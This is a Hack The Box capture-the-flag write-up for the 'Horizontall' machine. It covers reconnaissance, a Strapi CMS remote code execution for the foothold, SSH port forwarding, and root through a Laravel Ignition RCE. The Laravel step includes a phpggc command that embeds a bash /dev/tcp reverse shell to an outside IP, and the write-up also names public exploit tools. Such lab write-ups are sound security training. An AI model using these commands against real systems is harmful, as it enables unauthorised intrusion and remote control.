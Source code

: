 <p align="center"><img src="img/banner.png" alt="Banner"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/4005">wail99</a></p>

[![f4T1H21](https://www.hackthebox.com/badge/image/184235)](https://app.hackthebox.eu/profile/184235)
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" width="221" height="40" alt="Support">
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## `80/tcp` web service
### Vhost enumeration
Virtual hosting can be found by a simple gobuster scan.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# gobuster -q vhost -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -r -t 1000
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
```

### Directory enumeration
See `/admin` from a snippet of the scan.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# gobuster dir -q -u http://api-prod.horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x .txt,.php,.html,.js -e -t 65  
http://api-prod.horizontall.htb/index.html           (Status: 200) [Size: 413]
http://api-prod.horizontall.htb/admin                (Status: 200) [Size: 854]
. . .
```

![strapi](img/strapi.png)

# Foothold: Strapi CMS RCE

https://www.exploit-db.com/exploits/50239

>This script exploits two different vulnerability:
>
>1-  There's an unrestricted endpoint `/admin/auth/reset-password` which can give us direct access to admin's password reset functionality.
>
>2- If you make a post request to `/admin/plugins/install` with the authorized JWT token you get from password reset, a plugin name -in this case "documentation"- and a command with the format of: `&& $(id)` it'll be executed. But none of the output will be shown.

Use the exploit to get a reverse shell.

# Privilege Escalation

![version_check](img/version_check.png)

Although the box seems like it's vulnerable to [CVE-2021-3156](https://github.com/blasty/CVE-2021-3156), unfortunately it isn't.

>You can check your version of sudo is vulnerable with: `$ sudoedit -s Y`. If it asks for your password it's most likely vulnerable, if it prints usage information it isn't.

```
strapi@horizontall:~$ sudoedit -s Y
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

### :')

After stabilizing the connection via ssh, you see a locally listened port: `8000/tcp`
```
strapi@horizontall:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1836/node /usr/bin/ 
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

Find out this is a Laravel framework with a curl request.
```
strapi@horizontall:~$ curl http://127.0.0.1:8000 -i
. . .
X-Powered-By: PHP/7.4.22
Set-Cookie: laravel_session=...
. . .
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
                            Laravel v8 (PHP v7.4.18)
                    </div>
. . .
```

### Port forward locally using ssh tunneling.
Press \<Enter\> key once and in the new line immediately press `~` (tilda) before anything else. This'll let you enter ssh prompt and then you can give any flag like as you do at first.
```
strapi@horizontall:~$
strapi@horizontall:~$ 
ssh> -L 8000:127.0.0.1:8000
Forwarding port.

strapi@horizontall:~$
```

## Exploiting Laravel
See the github link mentioned below in [HackTricks' Laravel reference](https://book.hacktricks.xyz/pentesting/pentesting-web/laravel).
<br>https://github.com/ambionics/laravel-exploits

First, git clone the repo I mentioned above and [`phpggc`](https://github.com/ambionics/phpggc).

>- This tool allows you to generate the payload easily, it can be seen as the equivalent of frohoff's ysoserial, but for PHP.<br>
>- The tool supports gadget chains such as: CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, Wordpress, Yii and ZendFramework.

Second, start a nc listener.
<br>
Third, generate the payload.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# php -d'phar.readonly=0' phpggc/phpggc --phar phar -f -o exploit.phar monolog/rce1 system "bash -c 'bash -i >& /dev/tcp/10.10.16.42/2121 0>&1'"
```
Fourth, fire up the exploit.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# python3 laravel-exploits/laravel-ignition-rce.py http://127.0.0.1:8000/ exploit.phar                                                          
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
```
As soon as you see the `Successfully converted to PHAR !` message, your command should be executed. In this case the exploit didn't finish running because it provided a reverse connection to me.

![root](img/root.png)

---

# Resources

|__`Strapi CMS 3.0.0-beta.17.4 RCE`__|__https://www.exploit-db.com/exploits/50239__|
|:-|:-|
|__`Sudo Heap Based Buffer Overflow`__|__https://github.com/blasty/CVE-2021-3156__|
|__`HackTricks' Laravel Reference`__|__https://book.hacktricks.xyz/pentesting/pentesting-web/laravel__|
|__`Laravel Debug Mode RCE`__|__https://github.com/ambionics/laravel-exploits__|
|__`PHPGGC`__|__https://github.com/ambionics/phpggc__|

<br>

___─ Written by f4T1H ─___